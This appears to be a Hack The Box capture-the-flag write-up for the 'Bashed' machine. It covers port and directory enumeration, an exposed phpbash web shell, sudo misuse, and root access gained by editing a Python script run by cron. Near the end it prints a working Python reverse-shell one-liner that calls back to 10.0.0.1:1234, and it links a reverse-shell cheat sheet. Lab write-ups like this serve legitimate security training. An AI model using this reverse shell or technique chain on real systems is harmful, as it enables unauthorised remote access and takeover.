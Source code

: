 ```yaml
---
title:     "Hack The Box - Bashed"
tags: [linux,easy,sudo,cron]
layout: post
categories: HackTheBox OSCP-Machines
---
```


![](/img/htb-bashed/bashed1.png)

We are going to pwn Bashed from Hack The Box. Bashed is easy level linux machine.
LEt's get started.

Link : <https://www.hackthebox.eu/home/machines/profile/118>

## Enumeration

Lets Begin with our Initial Nmap Scan.

```bash
PORT   STATE SERVICE
80/tcp open  http


80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only HTTP port is open so we can bruteforce the directories and find any way to the shell. We can run dirbuster or gobuster to find these directories with wordlists.
![](/img/htb-bashed/bashed2.png)

## GoBuster
```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/10 00:27:13 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2019/12/10 00:29:21 Finished
===============================================================
```

We found lot of directories to check out and also we have the source code available.

While checking the ``/dev`` there is an ``phpbash.php``<br/>
![](/img/htb-bashed/bashed3.png)


Checked ``/home`` and found 2 users ``arrexel`` and ``scriptmanager`` 
Also found the ``user.txt``.

## Getting Reverse Shell

Now its time to get reverse shell to get inside the machine

Netcat didnt worked so i tried some others and perl works

Reverse Shell Cheatsheet
>http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Copy and paste the command on the ``phpbash.php`` and listening on my machine <br/>
![](/img/htb-bashed/bashed4.png)

## Privilege Escalation

Like always I started with ``sudo -l``<br/>
![](/img/htb-bashed/bashed5.png)

Looks like ``www-data`` can run any commands on the machine with the permission of ``scriptmanager`` without the password.

![](/img/htb-bashed/bashed6.png)

Now time to get root, I uploaded my Linux Enumeration Script LinEnum.sh and linpeas.sh and found some writeable scripts available. 

Checked out that there is a cronjob running on background so I started ``pspy``

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

So we can see the command running in the cron.

```
 /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

![](/img/htb-bashed/bashed7.png)

I edited the script and put a reverse shell to get shell back as root.
 

```py
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Started my listener on my machine

![](/img/htb-bashed/bashed8.png)

We Rooted this Machine! 
